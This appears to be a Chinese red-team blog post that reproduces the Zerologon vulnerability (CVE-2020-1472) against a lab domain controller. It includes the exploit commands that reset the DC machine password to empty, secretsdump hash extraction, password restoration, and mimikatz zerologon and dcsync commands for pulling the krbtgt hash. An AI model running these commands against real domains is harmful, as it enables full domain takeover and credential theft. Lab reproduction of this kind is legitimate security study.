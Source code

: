 ```yaml
---
layout:     post
title:    CVE-2020-1472
subtitle:   CVE-2020-1472踩坑
date:       2020-09-27
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 内网渗透
    - 红队
    - 复现
---
```

# CVE-2020-1472

## 介绍
CVE-2020-1472，懂的都懂，不懂的，说了你也不明白，不如不说。你们也别来问我怎么了，利益牵扯太大，说了对你们也没什么好处，当不知道就行了，其余的我只能说这里面水很深，牵扯到很多大人物，详细资料你们自己找是很难的，网上大部分都被删干净了，所以我只能说懂的都懂，不懂的也没办法。  

## 环境
```
DC:10.10.10.10  //2012
PC:10.10.10.201 //win7
attack:10.10.10.15 //kali
```
一开始是打算通过PC用s5代理去打后来发现有点问题，代理总是通不了，最后直接加了个HostOnly的网卡直接打。  

## 准备工作
先准备最新版的impacket。  
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && python3 -m pip install . 
```
下载exp。  
```
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472 && python3 -m pip install -r requirements.txt
```

## 复现
### 重置密码为空
首先开机，检测步骤直接略了，反正我知道他有这个，这个exp里也没带检测脚本，直接打就行。  

```
python3 cve-2020-1472-exploit.py -n DC -t 10.10.10.10
```
![200927_1](/img/200927_exp.png)  
看到已经成功重置，尝试空密码登录读取下hash。  
使用impacket/example下的secretsdump.py。  
```
python3 secretsdump.py -no-pass -just-dc de1ay/DC\$@10.10.10.10
```
![200927_2](/img/200927_hash.png)  
可以看到已经被重置为空密码。  
```
DC$:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
### 恢复密码
先尝试的是使用secretsdump.py，结果好像不行。  
```
python3 secretsdump.py de1ay/DC\$@10.10.10.10 --hashes xxxxxxxxxxxxxx:xxxxxxxxxxx
```
![200927_3](/img/200927_resetfail.png)  
直接使用了exp中自带的恢复脚本。  
```
python3 reinstall_original_pw.py DC 10.10.10.10 xxxxxxxxxxxxxx:xxxxxxxxxxx
```
![200927_4](/img/200927_reset.png)  



## mimikatz复现
mimikatz中也加入了CVE-2020-1472，拿来尝试下发现有几个需要注意的点。  
项目地址:[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
检测是否存在漏洞：  
```
.\mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.10.10.10 /account:DC$"
```
![200927_5](/img/200927_mimikatz.png)  
然后开始利用：
```
.\mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.10.10.10 /account:DC$ /exploit"
```
![200927_6](/img/200927_mimierr2.png)  
然后问题来了，后面的读hash操作是失败的。  
![200927_7](/img/200927_mimierr1.png)  
同样的重置自然也就不行了。  
原因应当是"privilege::debug"执行失败，这里就有一个坑了，我没填，如果是到域内机器上执行mimikatz进行利用，那只有一个普通域成员权限是不够的，需要域管权限才能执行（这时候我还需要利用这个打域控么？）。  
![200927_8](/img/200927_mimierr3.png)  
为了测试，我用管理权限启动了mimikatz，再进行执行，发现一切都正常了，只是我的脑子不正常了。  
```
lsadump::dcsync /domain:de1ay.com /dc:dc.de1ay.com /user:krbtgt /authuser:DC$ /authdomain:de1ay /authpassword:"" /authntlm
```
![200927_9](/img/200927_mimisecc.png)  
再重置密码也就成功了。  
![200927_10](/img/200927_mimisecc1.png)  



## 结尾
关于mimikatz的测试，我只测试了域成员本地的情况，因为我这代理的问题，没有测试本机通过代理直接去打的情况，有闲工夫的师傅们可以尝试下，挂代理用mimikatz打能否成功，望告知小弟结果。  
